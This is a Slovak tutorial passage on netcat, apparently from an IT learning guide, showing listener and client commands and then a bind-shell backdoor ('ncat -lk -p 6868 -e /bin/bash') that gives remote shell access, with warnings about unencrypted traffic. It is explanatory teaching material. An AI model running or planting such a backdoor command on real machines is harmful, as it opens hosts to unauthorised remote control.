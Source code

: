 #### D.1.1 ZADNÉ VRÁTKA POMOCOU NETCAT

Netcat je užitočná sieťová utilitka, ktorá nám umožňuje na jednej strane počúvať LISTENER čosi ako stetoskop a na druhej strane vysielať, čosi ako mikrofón. Počúvame samozrejme nie zvuk ale sieťovú prevádzku pomocou SOCKETOV spojenia IP adresy počítača a čísla PORTU.

Na jednom PC  pustíme LISTENER:
``` bash
sudo apt-get update
sudo apt-get install ncat

ncat -lk -p 6868   # počítač počúva na porte 6868 na svojej IP

```


Na druhej strane  sa napojíme na LISTENER a začneme mu posielať data v podobe súboru alebo textu.
``` bash
ncat IP_ADRESA PORT
```


>[!info] 
>SYSADMIN:  Okrem toho, že sme preverili, že oba počítač sa vedia spojiť vznikol ako vedľajší produkt improvizovaný CHAT. Komunikácia pomocou textu funguje OBOJSMERNE.
> 

>[!warning  ]
>### ITSEC: NETCAT POSIELA DÁTA NEŠIFROVANE  !!! Pokiaľ chceš použiť šifrovanie použi program Cryptocat


Netcat je často nainštalovaný na množstve počítačov a umožňuje skenovať sieť, vytvárať rôzne improvizované sieťové kanály, kontrolovať priehodnosť siete a pod. Má mnoho variácii a mien nc, ncat, netcat

>[! warning]
>HACKER: Najnebezpečnejšia funkcia NETCATU je  možnosť po pripojení vykonať nejaký príkaz v shelly. Napríklad   -e /bin/bash nám umožní ovládať Linuxový počítač cez terminál a zadávať mu príkazy.  Na windowse ho treba smerovať na cmd.exe alebo Powershell 
> 


Na PC kde chceme mať zadné vrátka:
``` bash
sudo apt-get update
sudo apt-get install ncat

ncat -lk -p 6868 -e /bin/bash  # počítač počúva na porte 6868 na svojej IP

```


Na druhej strane  
``` bash
ncat IP_ADRESA PORT
```

